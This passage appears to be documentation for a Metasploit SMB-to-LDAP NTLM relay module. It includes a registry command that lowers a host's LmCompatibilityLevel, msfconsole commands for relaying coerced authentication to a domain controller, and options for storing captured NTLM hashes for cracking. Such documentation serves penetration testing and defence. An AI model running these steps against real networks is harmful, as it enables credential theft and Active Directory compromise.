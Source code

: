 ```
PS > reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel /t REG_DWORD /d 0x2 /f
```

```
PS > reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa -v LmCompatibilityLevel

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    LmCompatibilityLevel    REG_DWORD    0x2
```

Finally run the relay server on msfconsole, setting the `RHOSTS` option
to the Domain Controller IP address.

```
run verbose=true RHOSTS=192.168.232.110
```

You will have to coerce the Domain Computer and force it to authenticate to the
msfconsole server (see an example below).


## Options

### RHOSTS

Target address range or CIDR identifier to relay to.

### CAINPWFILE

A file to store Cain & Abel formatted captured hashes in. Only supports NTLMv1 Hashes.

### JOHNPWFILE

A file to store John the Ripper formatted hashes in. NTLMv1 and NTLMv2 hashes
will be stored in separate files.
I.E. the filename john will produce two files, `john_netntlm` and `john_netntlmv2`.

### RELAY_TIMEOUT

Seconds that the relay socket will wait for a response after the client has
initiated communication (default 25 sec.).

### SMBDomain

The domain name used during SMB exchange.


## Scenarios

### Start the relay server
```
msf > use auxiliary/server/relay/smb_to_ldap
msf auxiliary(server/relay/smb_to_ldap) > run verbose=true RHOSTS=192.168.232.110
[*] Auxiliary module running as background job 0.
msf auxiliary(server/relay/smb_to_ldap) >
[*] SMB Server is running. Listening on 0.0.0.0:445
[*] Server started.

msf auxiliary(server/relay/smb_to_ldap) > _servicemanager
Services
========

 Id  Name                                                              References
 --  ----                                                              ----------
 0   Msf::Exploit::Remote::SMB::RelayServer::SMBRelayServer0.0.0.0445  2
```